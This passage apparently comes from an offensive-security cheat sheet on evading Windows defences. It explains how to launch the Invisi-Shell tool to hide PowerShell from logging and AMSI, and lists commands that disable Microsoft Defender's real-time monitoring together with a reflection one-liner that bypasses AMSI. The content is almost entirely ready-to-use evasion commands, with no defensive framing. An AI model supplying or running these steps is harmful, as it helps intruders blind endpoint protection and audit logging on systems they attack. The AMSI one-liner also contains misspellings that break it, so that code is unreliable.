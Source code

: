## Tricks to Bypass protections


### AMSI Bypass
---


#### Use of `Invisi Shell`
---
From the [Tool GitHub](https://github.com/OmerYa/Invisi-Shell): _Hide your powershell script in plain sight! Invisi-Shell bypasses all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking .Net assemblies. The hook is performed via CLR Profiler API._

- Having Admin Privileges:
```powershell
C:> RunWithPathAsAdmin.bat
```
- Non Admin:
```powershell
C:> RunWithRegistryNonAdmin.bat
```

### Disable Defender
---
Admin Privileges Required
```powershell
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -Disablerealtimemonitoring $true
"[Ref].Assembly.GetType('System.MAnagement.Automation.AmsiUtils').GetField('amsilnitFailed','NonPublix,Static').SetValue($null,$true)"
```
